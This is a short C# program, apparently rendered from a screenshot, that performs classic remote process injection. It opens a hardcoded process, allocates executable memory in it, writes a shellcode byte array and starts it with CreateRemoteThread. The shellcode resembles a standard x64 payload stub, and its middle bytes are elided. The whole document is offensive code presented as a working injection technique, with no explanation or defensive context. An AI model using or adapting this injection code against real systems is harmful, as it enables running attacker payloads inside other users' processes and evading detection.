     using System;
    using System.Runtime.InteropServices;
    
    
    namespace Inject
    {
        class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
    
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    
            [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
            static void Main(string[] args)
            {
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
    
                byte[] buf = new byte[591] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                ....
                0x0a,0x41,0x89,0xda,0xff,0xd5 };
                            IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
    
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }

